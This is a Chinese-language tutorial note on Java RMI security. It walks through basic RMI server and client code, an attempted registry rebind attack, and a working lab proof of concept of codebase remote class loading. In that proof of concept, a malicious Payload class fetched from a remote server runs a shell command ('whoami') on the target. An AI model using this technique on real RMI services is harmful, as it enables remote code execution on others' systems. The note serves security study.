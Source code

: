 ```yaml
---
title: "Java安全之RMI"
date: 2022-07-22T10:25:13+08:00
categories: ["notes"]
---
```


## 如何理解RMI

RMI全称是Remote Method Invocation，即远程方法调用，和RPC(Remote Procedure Call)即远程过程调用类似。RMI的作用就是让某个Java虚拟机中的对象调用另外一个Java虚拟机中对象的方法，RMI是Java独有的一种机制。

现在我们模拟一下RMI的过程，编写一个RMI服务端，一个RMI客户端，让客户端去调用服务端上的方法。

RMI服务端：

```java
public class RMIServer {
    public interface IRemoteHelloWorld extends Remote {
        public String hello() throws RemoteException;
    }

    public class RemoteHelloWorld extends UnicastRemoteObject implements IRemoteHelloWorld {
        protected RemoteHelloWorld() throws RemoteException {
            super();
        }

        @Override
        public String hello() throws RemoteException {
            System.out.println("call from");
            return "Hello world";
        }
    }

    private void start() throws Exception {
        RemoteHelloWorld h = new RemoteHelloWorld();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
    }

    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}

# 在这段代码中，我们将一个RemoteHelloWorld对象注册到了’rmi://127.0.0.1:1099/Hello‘，客户端只要去请求这个位置就要调用RemoteHelloWorld对象
```

RMI客户端：

```java
public class RMIClient {
    public static void main(String[] args) throws Exception {
        RMIServer.IRemoteHelloWorld hello = (RMIServer.IRemoteHelloWorld)Naming.lookup("rmi://192.168.3.79:1099/Hello");
        String ret = hello.hello();
        System.out.println(ret);
    }
}
```

先运行服务端，再运行客户端：

客户端结果：

![Java004](https://s2.loli.net/2022/07/22/KCxolYe9wTJqcMd.png)

服务端结果：

![Java005](https://s2.loli.net/2022/07/22/xz9dqvaKpsOibn6.png)

从结果来看，客户端只是调用了服务端的方法，服务端将执行结果返回给了客户端，方法的具体执行依然是在服务端。在这个过程有三个部分，1.RMI客户端 2.RMI服务端 3.RMI Registry。RMI Registry就像是一个远程对象注册中心，RMI客户端每次调用具体方法前都会先在RMI Registry中寻找有没有这个远程对象，所以RMI服务端需要将可以被远程调用的对象注册到Registry，才可以被其他的客户端调用。 RMI执行的具体过程大致可以如下图：

![Java006](https://s2.loli.net/2022/07/22/IvipGj17ZsqxKVb.png)

## RMI的安全问题

### 对Registry的攻击

Registry就像是一个后台管理，那我们可以尝试直接访问Registry修改其上已经存在接口对应的对象。大致的攻击过程如下：

```java
# 使用list()列出Registry上绑定的所有接口
String[] s = Naming.list("rmi://192.168.3.79:1099");

# 如探测出如下的接口:
rmi:192.168.3.79:1099/hello
rmi:192.168.3.79:1099/refObj

# 我们直接尝试修改rmi:192.168.3.79:1099/hello绑定的对象，修改为恶意的一个对象
Payload p = new Payload();
Naming.rebind("rmi:192.168.3.79:1099/hello", p);
```

如果这样重新绑定对象成功，那当别人访问rmi:192.168.3.79:1099/hello接口时就会执行我们的恶意对象。但是往往当我们远程执行Naming.rebind()方法时往往会报错，因为Java对远程访问的Registry做了限制，只有来源地址是localhost的时候，才能调用rebind,bind,unbind等方法，所以这种对Registry的攻击方式是不可行的。

### 利用codebase来执行任意代码

在RMI中存在远程加载的场景。可以想象一下这样一个场景，客户端向服务端传送了一些序列化的对象，当服务端接受到这些序列化对象后进行反序列化，但是服务端发现有一个对象在本地没有找到，这是服务端就是去查看客户端传过来的数据中有没有codebase，如果有codebase就会去codebase指定的地址去寻找本地没有的这个对象。大致过程如下图：

![Java007](https://s2.loli.net/2022/07/22/Y397UblXgCIpucS.png)

这样我们就利用用codebase来让服务端执行任意命令，不过codebase的利用也是有条件的：

* 安装并配置了SecurityManager
* Java版本低于7u21、6u45，或者设置了Java.rmi.server.useCodebaseOnly=false。在7u21、6u45版本之前，Java.rmi.server.useCodebaseOnly的默认值为false，当Java.rmi.server.useCodebaseOnly=true时，Java虚拟机只信任预先配置好的codebase，不再支持从RMI请求中获取。

现在我们来实践一下，编写一个客户端，一个服务端，准备一台远程服务器，让服务端执行远程服务器上的恶意类。

服务端：

```java
public class RemoteRMIServer {
    private void start() throws Exception {
        if(System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            SecurityManager securityManager = new SecurityManager();
            System.setSecurityManager(securityManager);
        }

        Calc h = new Calc();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("refObj", h);
        System.out.println("RMI运作中");
    }

    public static void main(String[] args) throws Exception {
        new RemoteRMIServer().start();
    }
}

# 服务端运行时要配置参数：-Djava.security.policy=server.policy -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.hostname=192.168.3.79
```

如果使用idea，配置运行时参数在这里：

![Java008](https://s2.loli.net/2022/07/22/zT1SmPdyBsCt4wv.png)

客户端：

```java
public class RMIClient implements Serializable {
    public void lookup() throws Exception {
        if(System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            SecurityManager securityManager = new SecurityManager();
            System.setSecurityManager(securityManager);
        }

        ICalc r = (ICalc) Naming.lookup("rmi://192.168.3.79:1099/refObj");
        List<Integer> li = new Payload();
        li.add(3);
        li.add(4);

        System.out.println(r.sum(li));
    }

    public static void main(String[] args) throws Exception {
        new RMIClient().lookup();
    }
}

# 配置运行时参数：-Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy -Djava.rmi.server.codebase=http://10.10.10.10:6666/
```

恶意类：

```java
public class Payload extends ArrayList<Integer> {
    static {
        try {
            System.out.println(Runtime.getRuntime().exec("whoami"));
            System.out.println("success");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

运行结果：

服务端：

![Java009](https://s2.loli.net/2022/07/22/DiHWs2h45Og7BeS.png)

客户端：

![Java010](https://s2.loli.net/2022/07/22/GQlLD3g6dMbBmKJ.png)

服务器：

![Java011](https://s2.loli.net/2022/07/22/yolBUiKsrSJXW72.png)

可以看到客户端和服务端都执行了恶意类中的代码，但是原因是不一样的，服务端执行恶意类是codebase指向的服务器中的代码，而客户端执行的恶意类是因为要在本地实例化恶意类对象时执行的。从服务器中我们也发现了一条请求，这条请求就是服务端发起的。

## 参考文档

phith0n的Java安全漫谈

